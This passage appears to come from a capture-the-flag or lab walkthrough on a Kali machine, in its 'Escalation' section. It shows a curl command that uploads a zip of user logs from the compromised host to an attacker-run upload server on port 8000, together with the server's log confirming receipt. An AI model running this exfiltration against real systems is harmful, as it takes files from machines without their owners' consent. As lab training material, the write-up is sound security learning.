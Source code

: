   

## Escalation

  

We need to download this zip file to enumerate further. We first run a script which allows files to be uploaded to our kali machine. This script is setup to listen on port 8000, which is one of the other ports left open on the firewall of the machine we are attacking: https://gist.github.com/UniIsland/3346170

  

```

$ curl -F 'file=@/home/brandon/parklogs.zip' http://192.168.174.128:8000/

curl -F 'file=@/home/brandon/parklogs.zip' http://192.168.174.128:8000/

  
  

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>

<title>Upload Result Page</title>

<style type="text/css">

* {font-family: Helvetica; font-size: 16px; }

a { text-decoration: none; }

</style>

<body>

<h2>Upload Result Page</h2>

<hr>

<strong>Success!</strong><br><br>'/home/kali/Documents/UGC/ParkMgmt/parklogs.zip'<br><br><a href="None"><button>Back</button></a>

<hr><small>Powered By: bones7456<br>Check new version <a href="https://gist.github.com/UniIsland/3346170" target="_blank">here</a>.</small></body>

</html

  

```

  

```

┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]

└─# python3 SimpleHTTPServerWithUpload.py

Serving HTTP on localhost port 8000 (http://localhost:8000/) ...

(True, "<br><br>'/home/kali/Documents/UGC/ParkMgmt/parklogs.zip'", 'by: ', ('192.168.174.140', 57302))

192.168.174.140 - - [07/May/2024 06:34:02] "POST / HTTP/1.1" 200 -

  
```
